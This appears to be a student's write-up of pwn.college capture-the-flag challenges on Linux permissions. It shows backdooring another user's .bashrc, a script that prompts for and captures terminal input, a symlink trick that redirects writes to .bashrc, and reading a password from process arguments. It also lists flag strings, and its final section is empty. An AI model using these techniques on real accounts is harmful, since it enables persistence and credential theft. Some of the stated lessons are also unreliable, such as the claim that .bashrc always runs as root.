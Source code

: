 # Bashrc Backdoor

### Edit .bashrc


**Flag:** `pwn.college{cv8W_UYxYaPgaeK7AQx8kfMvlPn.0VMzEzNxwSN2EzNzEzW}`

## Process
Ran `nano /home/zardus/.bashrc` and added `cat /flag` to it. Then, `/challenge/victim` gave me the flag.

## What I learnt
`.bashrc` is the file run on the startup of the shell/terminal.

## References
No references used.



<br><br><br><br><br>



# Sniffing Input

### Make a bash script to get input


**Flag:** `pwn.college{s7pxa6UX26yxmgYRrzPaHKP8uI_.0VNzEzNxwSN2EzNzEzW}`

## Process
Ran `nano /home/zardus/.bashrc` and wrote
```
read input

if [ $input == "flag_checker" ]
then
        echo "Type the flag"
        read flag
        cat $flag
fi
```
Then I ran `/challenge/victim` to get the flag.

## What I learnt
Input into the terminal can be read by any program with the correct permissions.

## References
No references used.



<br><br><br><br><br>




# Overshared Directories

### Rewrite a file in an opened up directory


**Flag:** `pwn.college{gK-rwkpnIfR2Hxd2J_wvqRMDtOi.0FM0EzNxwSN2EzNzEzW}`

## Process
Ran `rm /home/zardus/.bashrc` and then `nano /home/zardus/.bashrc` and wrote the previous code into the file. Then, on running `/challenge/victim` I got the flag.

## What I learnt
Files can be accessed if in an opened up directory.

## References
No references used.



<br><br><br><br><br>



# Tricky Linking

### Make a symlink to a file to get the flag


**Flag:** `pwn.college{M_u0IvXnGpPUjB3lWAA8TnlhiIJ.0VM0EzNxwSN2EzNzEzW}`

## Process
Ran `rm /tmp/collab/evil-commands.txt` and then `ln -s /home/zardus/.bashrc /tmp/collab/evil-commands.txt` to create the symbolic link. Ran `nano /home/zardus/.bashrc` and then ran `/challenge/victim` twice to get the flag.

## What I learnt
Anything in .bashrc is ran as the root and is therefore allowed. So making a sym link to .bashrc is a great idea.

## References
No references used.



<br><br><br><br><br>



# Sniffing Process Arguments

### Desc


**Flag:** `pwn.college{0iGLkNiAjRiYgwfLnA3yXGo5biF.0FOzEzNxwSN2EzNzEzW}`

## Process
Ran `ps aux` to see arguments passed to the automation script. Ran `su zardus` and entered the password when prompted to login as zardus and then ran `sudo cat /flag` to get the flag.

## What I learnt
`ps aux` does not show the whole output in a minimized window.

## References
No references used.



<br><br><br><br<br>




# Snooping on Configuratiins

### Desc


**Flag:** ``

## Process


## What I learnt


## References
No references used.
